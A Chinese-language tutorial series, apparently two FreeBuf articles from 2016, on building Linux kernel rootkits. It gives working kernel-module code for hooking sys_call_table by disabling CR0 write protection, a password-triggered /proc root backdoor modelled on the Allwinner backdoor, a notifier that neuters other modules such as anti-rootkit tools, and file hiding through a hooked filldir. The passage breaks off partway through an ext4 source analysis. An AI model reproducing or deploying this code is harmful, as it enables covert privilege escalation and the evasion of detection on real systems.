Linux Rootkit 研究
@@@@@@@@@@@@@@@@@@

Linux Rootkit 系列二：基于修改 `sys_call_table`_ 的系统调用挂钩
===============================================================

**最后修改时间** ：待记录。

rectigu@gmail.com, 二〇一六年五月。

**FreeBuf 链接** ： http://www.freebuf.com/sectool/105713.html 。

前言： `《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
的作者似乎跑路了；留下的这个口锅，我试着背一下。
鉴于笔者知识能力上的不足，如有问题欢迎各位扔豆腐，不要砸砖头。

与第一篇文章作者所想象的不同，
本文不打算给大家介绍三种不同的系统调用挂钩技术，
相反，本文仅详细讲解最简单的系统调用挂钩方案，
并且基于这个方案实现最基本的文件监视工具。
这样，既可以让读者轻松上手进行实际应用，
又可以加深、巩固读者对 LKM_ 的理解，
同时还免去了一次学习多种挂钩方案的理论知识压力。

所以，本文力求以实验为核心，每一个步骤都可能有对应的实验代码。
代码仓库： https://github.com/NoviceLive/research-rootkit 。
代码在最新的 64 比特 Arch_ 与 Kali_ 上面测试正常。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

如果读者使用 tmux_ 或者类似的工具，
则可以垂直分割你的终端窗口，
一个窗口开一个 ``sudo dmesg -C && dmesg -w`` ，用于查看日志；
另一个窗口用来做其他操作，比如构建、加载内核模块。
不用 tmux_ 也没关系，开两个终端，各占半个屏幕。

第一部分：基于修改 `sys_call_table`_ 的系统调用挂钩
---------------------------------------------------

在系统调用挂钩技术中，最简单、最流行的方案是修改
`sys_call_table`_ ，
成员类型为函数指针的一维数组。

.. code-block:: c

   asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
   	/*
   	 * Smells like a compiler bug -- it doesn't work
   	 * when the & below is removed.
   	 */
   	[0 ... __NR_syscall_max] = &sys_ni_syscall,
   #include <asm/syscalls_64.h>
   };

要修改它，首先得拿到它在内存里的位置。
然后，由于 `sys_call_table`_ 所在的内存是有写保护的，
所以我们需要先去掉写保护，再做修改。

1. 获得 `sys_call_table`_ 的内存地址
++++++++++++++++++++++++++++++++++++

在综合考量了几种可选的获取方案之后，
笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。
（ **但是这种方案有可能被欺骗** 。）

其他可能的方案有，一，从 `/boot/System.map`_ 中读取，
感兴趣的读者可以查阅
`Hooking the Linux System Call Table`_ ，
这篇文章便是使用这种方案来获取 `sys_call_table`_ 的地址的。

二，从使用了 `sys_call_table`_
的某些未导出函数的机器码里面进行特征搜索，
感兴趣的读者可以查阅
`Kernel-Land Rootkits`_ ，
作者花了几张 slides
阐述了如何从导出的函数中获取使用了 `sys_call_table`_ 的未导出函数，
进而搜索那个未导出函数的机器码，
得到 `sys_call_table`_ 的地址；等等。

值得指出的是，
感兴趣的读者在测试这些本文未涉及的方案时，
如果遇到了疑惑或者困难，也可以与笔者联系、交流。

直接看代码。

.. code-block:: c

   unsigned long **
   get_sys_call_table(void)
   {
     unsigned long **entry = (unsigned long **)PAGE_OFFSET;

     for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
       if (entry[__NR_close] == (unsigned long *)sys_close) {
           return entry;
         }
     }

     return NULL;
   }

`PAGE_OFFSET`_ 是内核内存空间的起始地址。
因为 `sys_close`_ 是导出函数
（需要指出的是， ``sys_open`` 、 ``sys_read`` 等并不是导出的），
我们可以直接得到他的地址；因为系统调用号
（也就是 `sys_call_table`_ 这个一维数组的索引）
在同一 ABI_ （x86 跟 x64 不是同一 ABI）上具有高度的后向兼容性，
更重要的是，我们可以直接使用这个索引（代码中的 ``__NR_close`` ）！

从内核内存的起始地址开始，
逐一尝试每一个指针大小的内存：把它当成是 `sys_call_table`_ 的地址，
用某个系统调用的编号（也就是索引）访问数组中的成员，
如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，
那么我们就认为当前尝试的这块指针大小的内存就是我们要找的
`sys_call_table`_ 的地址。

.. image:: images/sys_call_table.png

2. 关闭写保护
+++++++++++++

写保护指的是写入只读内存时出错。
这个特性可以通过 CR0_ 寄存器控制：开启或者关闭，
只需要修改一个比特，也就是从 0 开始数的第 16 个比特。

看代码。我们可以使用 `read_cr0`_ / `write_cr0`_
来读取 / 写入 CR0_ 寄存器，
免去我们自己写内联汇编的麻烦。

函数原型。

.. code-block:: c

   static inline unsigned long read_cr0(void);

   static inline void write_cr0(unsigned long x);

关闭写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 0。

.. code-block:: c

   void
   disable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     clear_bit(16, &cr0);
     write_cr0(cr0);
   }

开启写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 1。

.. code-block:: c

   void
   enable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     set_bit(16, &cr0);
     write_cr0(cr0);
   }

在设置或者清除某个比特，我们使用了 `set_bit`_ 与 `clear_bit`_ 。
它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂，
同时还免去了我们自己写那种很难读的位运算的痛苦。

函数原型。

.. code-block:: c

   static __always_inline void
   set_bit(long nr, volatile unsigned long *addr);

   static __always_inline void
   clear_bit(long nr, volatile unsigned long *addr);

.. image:: images/write_protection.png

3. 修改 `sys_call_table`_
+++++++++++++++++++++++++

一维数组赋值，当之无愧最简单的方案。
当然，我们需要先把真正的值保存好，以备后面之需。

.. code-block:: c

   disable_write_protection();
   real_open = (void *)sys_call_table[__NR_open];
   sys_call_table[__NR_open] = (unsigned long*)fake_open;
   real_unlink = (void *)sys_call_table[__NR_unlink];
   sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
   real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
   sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
   enable_write_protection();

4. 恢复
+++++++

.. code-block:: c

   disable_write_protection();
   sys_call_table[__NR_open] = (unsigned long*)real_open;
   sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
   sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
   enable_write_protection();

第二部分：基于系统调用挂钩的初级文件监视
----------------------------------------

监视文件的创建与删除。
我们挂钩 `sys_open`_, `sys_unlink`_, `sys_unlinkat`_ 这三个函数，
并且在我们的钩子函数把操作到的文件名打印出来，
然后把控制交给真正的系统调用处理。

1. `sys_open`_ 的钩子函数： ``fake_open``
+++++++++++++++++++++++++++++++++++++++++

考虑到在系统运行时，对文件的读写操作从未中断，
这里只打印了进行创建操作的文件名，准确地说是，
`sys_open`_ 的 ``flags`` 中包含 `O_CREAT`_ 。

.. code-block:: c

   asmlinkage long
   fake_open(const char __user *filename, int flags, umode_t mode)
   {
     if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) {
       printk(KERN_ALERT "open: %s\n", filename);
     }

     return real_open(filename, flags, mode);
   }

注：这里的 `strcmp`_ 也是内核提供的。

2. `sys_unlink`_ 与 `sys_unlinkat`_ 的钩子函数： ``fake_unlink`` 与 ``fake_unlinkat``
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

简单处理，直接打印路径名。

.. code-block:: c

   asmlinkage long
   fake_unlink(const char __user *pathname)
   {
     printk(KERN_ALERT "unlink: %s\n", pathname);

     return real_unlink(pathname);
   }

   asmlinkage long
   fake_unlinkat(int dfd, const char __user * pathname, int flag)
   {
     printk(KERN_ALERT "unlinkat: %s\n", pathname);

     return real_unlinkat(dfd, pathname, flag);
   }

3. 测试我们的文件监视工具
+++++++++++++++++++++++++

初级的文件监视就到这了，以后我们在做进一步的改进与完善。

.. image:: images/fsmon.png

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `The Linux Kernel API`_
- `How the Linux kernel handles a system call`_
- CR0_

2. 延伸阅读
+++++++++++

- `Hooking the Linux System Call Table`_
- `Kernel-Land Rootkits`_

.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html

.. _Hooking the Linux System Call Table: https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
.. _Kernel-Land Rootkits: http://www.kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

.. _/boot/System.map: https://en.wikipedia.org/wiki/System.map
.. _LKM: https://en.wikipedia.org/wiki/Loadable_kernel_module
.. _ABI: https://en.wikipedia.org/wiki/Application_binary_interface
.. _CR0: https://en.wikipedia.org/wiki/Control_register#CR0

.. _The Linux Kernel API: https://www.kernel.org/doc/htmldocs/kernel-api/index.html
.. _set_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html
.. _clear_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html
.. _strcmp: https://www.kernel.org/doc/htmldocs/kernel-api/API-strcmp.html

.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _read_cr0: http://lxr.free-electrons.com/ident?i=read_cr0
.. _write_cr0: http://lxr.free-electrons.com/ident?i=write_cr0
.. _sys_close: http://lxr.free-electrons.com/ident?i=sys_close
.. _sys_open: http://lxr.free-electrons.com/ident?i=sys_open
.. _sys_unlink: http://lxr.free-electrons.com/ident?i=sys_unlink
.. _sys_unlinkat: http://lxr.free-electrons.com/ident?i=sys_unlinkat
.. _sys_call_table: http://lxr.free-electrons.com/ident?i=sys_call_table
.. _PAGE_OFFSET: http://lxr.free-electrons.com/ident?i=PAGE_OFFSET
.. _O_CREAT: http://lxr.free-electrons.com/ident?i=O_CREAT

.. _Arch: https://www.archlinux.org/
.. _Kali: https://www.kali.org/

.. _How the Linux kernel handles a system call:  https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html

.. _tmux: https://tmux.github.io/

Linux Rootkit 系列三：实例详解 Rootkit 必备的基本功能
=====================================================

**最后修改时间** ： **2016-07-20 CST** 。

rectigu@gmail.com, 二〇一六年六月。

**FreeBuf 链接** ： http://www.freebuf.com/articles/system/107829.html 。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

本文所需的完整代码位于笔者的代码仓库：
https://github.com/NoviceLive/research-rootkit。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

概要
----

在 `上一篇文章`_ 中笔者详细地阐述了基于直接修改系统调用表
（即 ``sys_call_table`` / ``ia32_sys_call_table`` ）的挂钩，
文章强调以代码与动手实验为核心。

长话短说，本文也将以同样的理念带领读者一一缕清
Rootkit 必备的基本功能，
包括提供 root 后门，控制内核模块的加载，
**隐藏文件** （提示：这是文章的重点与核心内容），
隐藏进程，隐藏网络端口，隐藏内核模块等。

短话长说，本文不打算给大家介绍剩下的几种不同的系统调用挂钩技术：
比如说，修改 32 位系统调用（ 使用 ``int $0x80`` ）
进入内核需要使用的 `IDT`_
（ `Interrupt descriptor table`_ / 中断描述符表） 项，
修改 64 位系统调用（ 使用 ``syscall`` ）需要使用的 `MSR`_
（ `Model-specific register`_ / 模型特定寄存器，具体讲，
64 位系统调用派遣例程的地址位于 `MSR_LSTAR`_ ）；
又比如基于修改系统调用派遣例程
（对 64 位系统调用而言也就是 ``entry_SYSCALL_64`` ） 的钩法；
又或者，内联挂钩 / `Inline Hooking`_ 。

这些钩法我们以后再谈，现在，我们先专心把一种钩法玩出花样。
`上一篇文章`_ 讲的钩法，也就是函数指针的替换，并不局限于钩系统调用。
本文会将这种方法应用到其他的函数上。

.. _上一篇文章: http://www.freebuf.com/sectool/105713.html

第一部分：Rootkit 必备的基本功能
--------------------------------

**站稳，坐好。**

1. 提供 root 后门
+++++++++++++++++

这个特别好讲，笔者就拿提供 root 后门这个功能开刀了。

大家还记得前段时间 `全志`_ （ `AllWinner`_ ）
提供的 Linux 内核里面的 root 后门吧，
不了解的可以看一下 `FB`_ 之前的文章，
`外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门`_ 。

我们拿 `后门的那段源代码`_ 改改就好了。

具体说来，逻辑是这样子的，
我们的内核模块在 `/proc`_ 下面创建一个文件，
如果某一个进程向这个文件写入特定的内容
（读者可以把这个“特定的内容”理解成口令或者密码），
我们的内核模块就把这个进程的 uid_ 与 euid_ 等等全都设置成 0，
也就是 root 账号的。这样，这个进程就拥有了 root 权限。

不妨拿 `全志`_ root 后门这件事来举个例子，
在运行有后门的 Linux 内核的设备上，
进程只需要向 ``/proc/sunxi_debug/sunxi_debug`` 写入 ``rootmydevice``
就可以获得 root 权限。

另外，我们的内核模块创建的那个文件显然是要隐藏掉的。
考虑到现在还没讲文件隐藏（本文后面会谈文件隐藏），所以
这一小节的实验并不包括将创建出来的文件隐藏掉。

下面我们看看怎样在内核模块里创建 `/proc`_ 下面的文件。

`全志`_ root 后门代码里用到的 ``create_proc_entry``
是一个过时了的 API_ ，而且在新内核里面它已经被去掉了。
考虑到笔者暂时还不考虑兼容老的内核，
所以我们直接用新的 API_ ， ``proc_create`` 与 ``proc_remove`` ，
分别用于创建与删除一个 `/proc`_ 下面的项目。

函数原型如下。

.. code-block:: c

   # include <linux/proc_fs.h>

   static inline struct proc_dir_entry *
   proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct file_operations *proc_fops);

   void
   proc_remove(struct proc_dir_entry *entry);

``proc_create`` 参数的含义依次为，文件名字，文件访问模式，
父目录，文件操作函数结构体。
我们重点关心第四个参数： ``struct file_operations``
里面是一些函数指针，即对文件的各种操作的处理函数，
比如，读（ ``read`` ）、写（ ``write`` ）。
该结构体的定义位于 ``linux/fs.h`` ，后面讲文件隐藏的时候还会遇到它。

创建与删除一个 `/proc`_ 文件的代码示例如下。

.. code-block:: c

   struct proc_dir_entry *entry;

   entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

   proc_remove(entry);

实现我们的需求只需要提供一个写操作（ ``write`` ）
的处理函数就可以了，如下所示。

.. code-block:: c

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       char *kbuff;
       struct cred* cred;

       // 分配内存。
       kbuff = kmalloc(count, GFP_KERNEL);
       if (!kbuff) {
           return -ENOMEM;
       }

       // 复制到内核缓冲区。
       if (copy_from_user(kbuff, buff, count)) {
           kfree(kbuff);
           return -EFAULT;
       }
       kbuff[count] = (char)0;

       if (strlen(kbuff) == strlen(AUTH) &&
           strncmp(AUTH, kbuff, count) == 0) {

           // 用户进程写入的内容是我们的口令或者密码，
           // 把进程的 ``uid`` 与 ``gid`` 等等
           // 都设置成 ``root`` 账号的，将其提权到 ``root``。
           fm_alert("%s\n", "Comrade, I will help you.");
           cred = (struct cred *)__task_cred(current);
           cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
           cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
           fm_alert("%s\n", "See you!");
       } else {
           // 密码错误，拒绝提权。
           fm_alert("Alien, get out of here: %s.\n", kbuff);
       }

       kfree(buff);
       return count;
   }

实验
****

编译并加载我们的内核模块，以 Kali_ 为例：
Kali_ 默认只有 root 账号，
我们可以用 ``useradd <username>``
添加一个临时的非 root 账号来运行提权脚本（ ``r00tme.sh`` ）做演示。
效果参见下图，
可以看到在提权之前用户的 uid_ 是 1000，
也就是普通用户，不能读取 ``/proc/kcore`` ；
提权之后， uid_ 变成了 0，也就是超级用户，可以读取 ``/proc/kcore`` 。



.. _后门的那段源代码: https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41

2. 控制内核模块的加载
+++++++++++++++++++++

想象一下，在一个月黑风高的夜晚，邪恶的读者（误：善良的读者）
通过某种手段（可能的经典顺序是 RCE_ + LPE_ ，
Remote Code Execution / 远程代码执行
+ Local Privilege Escalation / 本地特权提升）
得到了某台机器的 root 命令执行；
进而执行 Rootkit 的 Dropper 程序释放并配置好 Rootkit，
让其进入工作状态。

这时候，Rootkit 首先应该做的并不是提供 root 后门；
而是，一方面，我们应该尝试把我们进来的门（漏洞）堵上，
避免 **其他** 不良群众乱入，另一方面，我们希望能控制好其他程序
（这个其他程序主要是指反 Rootkit 程序与 **其他** 不良 Rootkit），
使其不加载 **其他** 不良内核模块与我们在内核态血拼。

理想状态下，我们的 Rootkit 独自霸占内核态，
阻止所有不必要的代码
（尤其是反 Rootkit 程序与 **其他** 不良 Rootkit）在内核态执行。
当然，理想是艰巨的，所以我们先做点容易的，控制内核模块的加载。

**2016-07-20 CST 更新** ： **独自霸占内核态的理想错误的，
Rootkit 强调的是后门（隐蔽）属性，不是霸道（嚣张）** 。

控制内核模块的加载，我们可以从通知链机制下手。
通知链的详细工作机制读者可以查看参考资料；
简单来讲，当某个子系统或者模块发生某个事件时，
该子系统主动遍历某个链表，
而这个链表中记录着其他子系统或者模块注册的事件处理函数，
通过传递恰当的参数调用这个处理函数达到事件通知的目的。

具体来说，我们注册一个模块通知处理函数，
在模块完成加载之后、开始初始化之前，
即模块状态为 ``MODULE_STATE_COMING`` ，
将其初始函数掉包成一个什么也不做的函数。
这样一来，模块不能完成初始化，也就相当于残废了。

笔者决定多读读代码，少讲理论，
所以我们先简要分析一下内核模块的加载过程。
相关代码位于内核源码树的 ``kernel/module.c`` 。
我们从 ``init_module`` 开始看。

.. code-block:: c

   SYSCALL_DEFINE3(init_module, void __user *, umod,
            unsigned long, len, const char __user *, uargs)
   {
        int err;
        struct load_info info = { };

        // 检查当前设置是否允许加载内核模块。
        err = may_init_module();

        if (err)
            return err;

        pr_debug("init_module: umod=%p, len=%lu, uargs=%p\n",
               umod, len, uargs);

        // 复制模块到内核。
        err = copy_module_from_user(umod, len, &info);
        if (err)
            return err;

        // 交给 ``load_module`` 进一步处理。
        return load_module(&info, uargs, 0);
   }

模块加载的主要工作都是 ``load_module`` 完成的，这个函数比较长，
这里只贴我们关心的一小段。

.. code-block:: c

   static int load_module(struct load_info *info, const char __user *uargs,
               int flags)
   {
        // 这儿省略若干代码。

        /* Finally it's fully formed, ready to start executing. */
        // 模块已经完成加载，可以开始执行了（但是还没有执行）。
        err = complete_formation(mod, info);
        if (err)
            goto ddebug_cleanup;

        // 我们注册的通知处理函数会在 ``prepare_coming_module`` 的
        // 时候被调用，完成偷天换日。在下面我们还会分析一下这个函数。
        err = prepare_coming_module(mod);
        if (err)
            goto bug_cleanup;

        // 这儿省略若干代码。

        // 在 ``do_init_module`` 里面，模块的初始函数会被执行。
        // 然而在这个时候，我们早就把他的初始化函数掉包了（/偷笑）。
        return do_init_module(mod);

        // 这儿省略若干代码：错误时释放资源等。
   }

.. code-block:: c

   static int prepare_coming_module(struct module *mod)
   {
        int err;

        ftrace_module_enable(mod);
        err = klp_module_coming(mod);
        if (err)
            return err;

        // 就是这儿！调用通知链中的通知处理函数。
        // ``MODULE_STATE_COMING`` 会原封不动地传递给我们的处理函数，
        // 我们的处理函数只需处理这个通知。
        blocking_notifier_call_chain(&module_notify_list,
                         MODULE_STATE_COMING, mod);
        return 0;
   }

说的具体点，
我们注册的通知链处理函数是在 ``notifier_call_chain``
函数里被调用的，调用层次为： ``blocking_notifier_call_chain`` ->
``__blocking_notifier_call_chain`` -> ``notifier_call_chain`` 。
有疑惑的读者可以细致地看看这部分代码，
位于内核源码树的 ``kernel/notifier.c`` 。

代码分析告一段落，接下来我们看看如何注册模块通知处理函数。
用于描述通知处理函数的结构体是 ``struct notifier_block`` ，
定义如下 。

.. code-block:: c

   typedef  int (*notifier_fn_t)(struct notifier_block *nb,
                unsigned long action, void *data);

   struct notifier_block {
        notifier_fn_t notifier_call;
        struct notifier_block __rcu *next;
        int priority;
   };

注册或者注销模块通知处理函数可以使用 ``register_module_notifier``
或者 ``unregister_module_notifier`` ，函数原型如下。

.. code-block:: c

   int
   register_module_notifier(struct notifier_block *nb);

   int
   unregister_module_notifier(struct notifier_block *nb);

编写一个通知处理函数，然后填充 ``struct notifier_block`` 结构体，
最后使用 ``register_module_notifier`` 注册就可以了。代码片段如下。

.. code-block:: c

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data);

   struct notifier_block nb = {
       .notifier_call = module_notifier,
       .priority = INT_MAX
   };

上面的代码是声明处理函数并填充所需结构体；
下面是处理函数具体实现。

.. code-block:: c

   int
   fake_init(void);
   void
   fake_exit(void);

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data)
   {
       struct module *module;
       unsigned long flags;
       // 定义锁。
       DEFINE_SPINLOCK(module_notifier_spinlock);

       module = data;
       fm_alert("Processing the module: %s\n", module->name);

       //保存中断状态加锁。
       spin_lock_irqsave(&module_notifier_spinlock, flags);
       switch (module->state) {
       case MODULE_STATE_COMING:
           fm_alert("Replacing init and exit functions: %s.\n",
                    module->name);
           // 偷天换日：篡改模块的初始函数与退出函数。
           module->init = fake_init;
           module->exit = fake_exit;
           break;
       default:
           break;
       }

       // 恢复中断状态解锁。
       spin_unlock_irqrestore(&module_notifier_spinlock, flags);

       return NOTIFY_DONE;
   }

   int
   fake_init(void)
   {
       fm_alert("%s\n", "Fake init.");

       return 0;
   }

   void
   fake_exit(void)
   {
       fm_alert("%s\n", "Fake exit.");

       return;
   }

实验
****

测试时我们还需要构建另外一个简单的模块（ ``test`` ）来测试，
从下图可以看到在加载用于控制模块加载的内核模块（ ``komonko`` ）
之前， ``test`` 的初始函数与退出函数都正常的执行了；
在加载 ``komonko`` 之后， 无论是加载 ``test`` 还是卸载 ``test`` ，
它的初始函数与退出函数都没有执行，
执行的是我们掉包后的初始函数与退出函数。



3. 隐藏文件
+++++++++++

说好的重点内容文件隐藏来了。
不过说到文件隐藏，我们不妨先看看文件遍历的实现，
也就是系统调用 ``getdents`` / ``getdents64`` ，
简略地浏览它在内核态服务函数（sys_getdents）的源码
（位于 ``fs/readdir.c`` ），我们可以看到如下调用层次，
``sys_getdents`` -> ``iterate_dir``
-> ``struct file_operations`` 里的 ``iterate``
-> 这儿省略若干层次
-> ``struct dir_context`` 里的 ``actor`` ，也就是 ``filldir`` 。

``filldir`` 负责把一项记录（比如说目录下的一个文件或者一个子目录）
填到返回的缓冲区里。如果我们钩掉 ``filldir`` ，
并在我们的钩子函数里对某些特定的记录予以直接丢弃，
不填到缓冲区里，上层函数与应用程序就收不到那个记录，
也就不知道那个文件或者文件夹的存在了，也就实现了文件隐藏。

具体说来，我们的隐藏逻辑如下：
篡改根目录（也就是“/”）的 ``iterate`` 为我们的假 ``iterate`` ，
在假函数里把 ``struct dir_context`` 里的 ``actor`` 替换成我们的
假 ``filldir`` ，假 ``filldir`` 会把需要隐藏的文件过滤掉。

下面是假 ``iterate`` 与 假 ``filldir`` 的实现。

.. code-block:: c

   int
   fake_iterate(struct file *filp, struct dir_context *ctx)
   {
       // 备份真的 ``filldir``，以备后面之需。
       real_filldir = ctx->actor;

       // 把 ``struct dir_context`` 里的 ``actor``，
       // 也就是真的 ``filldir``
       // 替换成我们的假 ``filldir``
       *(filldir_t *)&ctx->actor = fake_filldir;

       return real_iterate(filp, ctx);
   }

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
           // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
           fm_alert("Hiding: %s", name);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 如果不是需要隐藏的文件，
       // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

钩某个目录的 ``struct file_operations`` 里的函数，
笔者写了一个通用的宏。

.. code-block:: c

   # define set_f_op(op, path, new, old)                       \
       do {                                                    \
           struct file *filp;                                  \
           struct file_operations *f_op;                       \
                                                               \
           fm_alert("Opening the path: %s.\n", path);          \
           filp = filp_open(path, O_RDONLY, 0);                \
           if (IS_ERR(filp)) {                                 \
               fm_alert("Failed to open %s with error %ld.\n", \
                        path, PTR_ERR(filp));                  \
               old = NULL;                                     \
           } else {                                            \
               fm_alert("Succeeded in opening: %s\n", path);   \
               f_op = (struct file_operations *)filp->f_op;    \
               old = f_op->op;                                 \
                                                               \
               fm_alert("Changing iterate from %p to %p.\n",   \
                        old, new);                             \
               disable_write_protection();                     \
               f_op->op = new;                                 \
               enable_write_protection();                      \
           }                                                   \
       } while(0)

实验
****

实验时，笔者随（gu）手（yi）用来隐藏的文件名： ``032416_525.mp4`` 。
从下图我们可以看到，在加载我们的内核模块（ ``fshidko`` ）之前，
``test`` 目录下的 ``032416_525.mp4`` 是可以列举出来的；
但是加载 ``fshidko`` 之后就看不到了，并且在 ``dmesg`` 的日志里，
我们可以看到 ``fshidko`` 打印的隐藏了这个文件的信息。



选读内容：相关内核源码的简略分析
********************************

.. code-block:: c

   SYSCALL_DEFINE3(getdents, unsigned int, fd,
            struct linux_dirent __user *, dirent, unsigned int, count)
   {
        // 这儿省略若干代码。

        struct getdents_callback buf = {
            .ctx.actor = filldir, // 最后的接锅英雄。
            .count = count,
            .current_dir = dirent
        };

        // 这儿省略若干代码。

        // 跟进 ``iterate_dir``，
        // 可以看到它是通过 ``struct file_operations`` 里
        // ``iterate`` 完成任务的。
        error = iterate_dir(f.file, &buf.ctx);

        // 这儿省略若干代码。

        return error;
   }

   int iterate_dir(struct file *file, struct dir_context *ctx)
   {
        struct inode *inode = file_inode(file);
        int res = -ENOTDIR;

        // 如果 ``struct file_operations`` 里的 ``iterate``
        // 为 ``NULL``，返回 ``-ENOTDIR`` 。
        if (!file->f_op->iterate)
            goto out;

        // 这儿省略若干代码。

        res = -ENOENT;
        if (!IS_DEADDIR(inode)) {
            ctx->pos = file->f_pos;
            // ``iterate_dir`` 把锅甩给了
            // ``struct file_operations`` 里的 ``iterate``，
            // 对这个 ``iterate`` 的分析请看下面。
            res = file->f_op->iterate(file, ctx);
            file->f_pos = ctx->pos;
            // 这儿省略若干代码。
        }
        // 这儿省略若干代码。
   out:
        return res;
   }

这一层一层的剥开，
我们来到了 ``struct file_operations`` 里面的 ``iterate`` ，
这个 ``iterate`` 在不同的文件系统有不同的实现，
下面（位于 ``fs/ext4/dir.c`` ）
是针对 ext4_ 文件系统的 ``struct file_operations`` ，
